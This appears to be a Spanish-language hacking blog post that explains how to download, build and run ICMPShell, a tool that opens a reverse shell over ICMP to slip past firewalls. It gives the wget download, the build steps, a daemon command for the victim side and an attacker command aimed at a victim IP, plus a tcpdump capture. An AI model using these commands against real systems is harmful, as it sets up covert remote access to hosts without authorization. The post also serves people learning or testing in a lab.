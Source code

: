 ```yaml
---
title: ICMPShell - Conexiones Inversas mediante ICMP
date: 2024-11-04 09:00:00 
categories: [CIBERSEGURIDAD, HACKING]
tags: [hacking, linux]
description: Una herramienta que permite realizar conexiones inversas a sistemas remotos utilizando el protocolo ICMP
image: /assets/94/preview1.png
---
```


ICMPShell es una herramienta que permite realizar conexiones inversas a sistemas remotos utilizando el protocolo ICMP (Internet Control Message Protocol).
Este método puede ser útil en situaciones donde el tráfico TCP o UDP esté restringido, ya que algunas configuraciones de firewall no bloquean ni supervisan el tráfico ICMP de la misma forma.

A continuación, se explican los pasos para su instalación y uso.

Es necesario que se descargue desde su repositorio en SourceForge:

    wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz

Nota: La herramienta es compatible únicamente con sistemas Linux, BSD y Solaris.

Primero que nada es necesario desempaquetar el archivo tar que nos queda.

    tar xzf ish-v0.2.tar.gz
    make <sistema>  # [linux,bsd,solaris] Dependiendo de dónde se va a ejecutar.

Para que la pequeña shell funcione, es necesario que se copie y compile en ambos sistemas (cliente y servidor). Del lado del cliente:

    ./ishd -d -p <puerto>

En el lado del atacante:

    ./ish -tr 0 -p <puerto> <ip_victima>

Para una prueba de concepto podemos hacer uso de tcpdump. Con esta herramienta capturaremos las peticiones de tipo icmp_echo_reply (que es como funciona esta shell).

    tcpdump -nni <interface> -e icmp[icmptype] == 0 #Hacemos captura de paquetes de tipo ICMP_ECHO_REPLY.

NOTA: Si realizamos la prueba de concepto en una misma máquina, es posible hacer captura de los paquetes con loopback (interface lo).

Con wireshark es posible hacer lo propio. Algo de info desde Wikiversity.

[https://en.wikiversity.org/wiki/Wireshark/ICMP_Echo](https://en.wikiversity.org/wiki/Wireshark/ICMP_Echo))


